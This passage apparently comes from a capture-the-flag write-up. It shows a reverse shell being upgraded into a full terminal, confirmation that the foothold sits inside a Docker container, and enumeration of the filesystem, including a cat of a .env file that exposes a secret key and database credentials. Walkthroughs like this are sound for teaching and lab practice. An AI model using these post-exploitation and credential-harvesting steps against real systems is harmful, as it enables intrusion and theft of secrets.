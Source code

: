 - Get a better shell

```bash
script /dev/null -c bash
	CTRL+Z
stty raw -echo; fg
# Hit ENTER when cursor blinks
reset
	Terminal type? screen
export TERM=xterm
```

```bash
root@3a453ab39d3d:/backend# ip -o a
1: lo    inet 127.0.0.1/8 scope host lo\       valid_lft forever preferred_lft forever
5: eth0    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0\       valid_lft forever preferred_lft forever
```

- By checking the IP, it can be found out the reverse shell is inside a Docker container

---

## Foothold

```bash
root@3a453ab39d3d:/backend# ls -lah project/
total 48K
drwxr-xr-x 1 root root 4.0K Nov  3  2021 .
drwxr-xr-x 1 root root 4.0K Nov  5  2021 ..
-rw-r--r-- 1 root root  142 Nov  3  2021 .env
-rw-r--r-- 1 root root   36 Nov  3  2021 Procfile
drwxr-xr-x 1 root root 4.0K Jul  6 21:41 apps
drwxr-xr-x 2 root root 4.0K Nov  3  2021 media
-rw-r--r-- 1 root root  626 Nov  3  2021 package.json
-rw-r--r-- 1 root root  208 Nov  3  2021 requirements.txt
-rw-r--r-- 1 root root  933 Nov  3  2021 run.py

root@3a453ab39d3d:/backend# cat project/.env
DEBUG=True
SECRET_KEY=S3cr3t_K#Key
DB_ENGINE=postgresql
DB_NAME=appseed-flask
DB_HOST=localhost
DB_PORT=5432
DB_USERNAME=appseed
DB_PASS=pass

root@3a453ab39d3d:/backend# df -hT
Filesystem     Type     Size  Used Avail Use% Mounted on
overlay        overlay  6.3G  4.7G  1.3G  79% /
tmpfs          tmpfs     64M     0   64M   0% /dev
tmpfs          tmpfs    2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda1      ext4     6.3G  4.7G  1.3G  79% /home/augustus
shm            tmpfs     64M     0   64M   0% /dev/shm
tmpfs          tmpfs    2.0G     0  2.0G   0% /proc/acpi
tmpfs          tmpfs    2.0G     0  2.0G   0% /sys/firmware

root@3a453ab39d3d:/backend# ls -lah /home/augustus/
total 24K
drwxr-xr-x 2 1000 1000 4.0K Dec  2  2021 .
drwxr-xr-x 1 root root 4.0K Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3.5K Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
```